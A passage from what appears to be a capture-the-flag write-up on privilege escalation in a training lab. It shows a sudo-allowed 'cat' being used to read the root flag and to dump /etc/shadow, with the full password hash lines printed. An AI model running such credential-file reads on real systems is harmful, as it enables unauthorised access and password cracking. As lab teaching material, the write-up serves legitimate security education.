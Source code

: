 # Privilege Escalation

Now we begin [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to cat the root flag, first we check for permissions :
```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

So we can use `cat` as root without root password, let's try :

```bash
john@bruteit:/$ /bin/cat /root/root.txt
/bin/cat: /root/root.txt: Permission denied
john@bruteit:/$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

And we retrieve the root password hash :

```
ohn@bruteit:/$ sudo cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
sshd:*:18489:0:99999:7:::
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:18490:0:99999:7:::


```
